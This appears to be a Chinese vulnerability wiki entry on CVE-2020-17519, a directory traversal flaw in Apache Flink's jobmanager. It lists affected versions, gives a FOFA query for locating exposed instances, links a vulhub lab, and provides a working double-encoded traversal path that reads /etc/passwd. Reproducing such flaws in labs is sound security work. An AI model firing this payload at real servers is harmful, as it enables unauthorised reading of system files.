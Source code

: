 ```yaml
---
title: Apache Flink jobmanager 目录遍历漏洞 CVE-2020-17519
---
```


# Apache Flink jobmanager 目录遍历漏洞 CVE-2020-17519

## 漏洞描述
2021年01月06日，360CERT监测发现Apache Flink发布了Apache Flink 目录穿越漏洞,目录穿越漏洞的风险通告，漏洞编号为CVE-2020-17518,CVE-2020-17519，漏洞等级：高危，漏洞评分：8.5。
远程攻击者通过REST API目录遍历，可造成文件读取/写入的影响。
## 漏洞影响
<a-checkbox checked>Apache Flink 1.11.0</a-checkbox></br>
<a-checkbox checked>Apache Flink 1.11.1</a-checkbox></br>
<a-checkbox checked>Apache Flink 1.11.2</a-checkbox></br>

## 网络测绘
<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>

![06d235d4-965d-44e0-91c0-dc69b97bf48d](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/06d235d4-965d-44e0-91c0-dc69b97bf48d.png)

## 漏洞复现
验证POC

```shell
/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![a87cedc1-5a40-42bb-a377-9bdb03fad242](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/a87cedc1-5a40-42bb-a377-9bdb03fad242.png)

